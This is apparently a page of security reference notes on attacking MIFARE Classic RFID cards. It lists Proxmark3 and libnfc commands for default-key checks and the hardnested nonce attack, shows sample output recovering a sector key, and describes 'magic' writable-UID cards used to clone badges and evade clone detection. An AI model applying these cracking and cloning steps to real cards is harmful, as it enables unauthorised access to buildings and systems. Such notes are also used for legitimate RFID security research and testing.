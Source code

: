 ```powershell
# find a default key
# res column is either equal to 1 or 0. 
# A 1 in the column means the key was valid for that sector.
hf mf chk *1 ? t


# <block number> <key A|B> <key (12 hex symbols)>
# <target block number> <target key A|B> [known target key (12 hex symbols)] [w] [s]
# w: Acquire nonces and write them to binary file nonces.bin
hf mf hardnested 0 A 8829da9daf76 4 A w

# then https://github.com/aczid/crypto1_bs
./solve_piwi 0xcafec0de.bin
./solve_piwi_bs 0xcafec0de.bin
```

**ACR122u method**

With the key n°A a0a1a2a3a4a5 for sector 0 and we want key n°A for sector 1. This method can be reused for every sectors.

```powershell
./libnfc_crypto1_crack a0a1a2a3a4a5 0 a 4 a
Found tag with uid 62ef9e5a, collecting nonces for key A of block 4 (sector 1) using known key A a0a1a2a3a4a5 for block 0 (sector 0)
Collected 2379 nonces... leftover complexity 23833993588 (~2^34.47) - initializing brute-force phase...
Starting 4 threads to test 23833993588 states using 256-way bitslicing
Cracking...  88.93%
Found key: c44e2b5e4ce3
Tested 21232975852 states
```

#### Magic Chinese Card - Acronyms

**UID** - The original Chinese Magic Backdoor card. These cards respond to the backdoor commands and will show Chinese magic backdoor commands (GEN 1a) detected when you do an hf search. These cards can be detected by probing the card to see if it responds to the backdoor commands. Some RFID systems may try to detect these cards.

**CUID** - The 2nd generation Chinese Magic Backdoor card. These cards do not use the backdoor commands, but instead allow Block 0 to be written to like any other block on the card. This gives the card better compatibility to be written to from an Android phone. However, some RFID systems can detect this type of card by sending a write command to Block 0, making the card invalid after the first use is attempted.

**FUID** - This type of card is not as common, but allows Block 0 to be written to just once. This allows you to create a clone of a card and any checks done by the RFID system will pass because Block 0 is no longer writable.

**UFUID** - This type of card is apparently a "better" version of the FUID card. Instead of only allowing Block 0 to be written once, you can write to it many times and then lock the block later when you're happy with the result. After locking Block 0, it cannot be unlocked to my knowledge. I do not think there is currently a way to lock these cards using the Proxmark3.
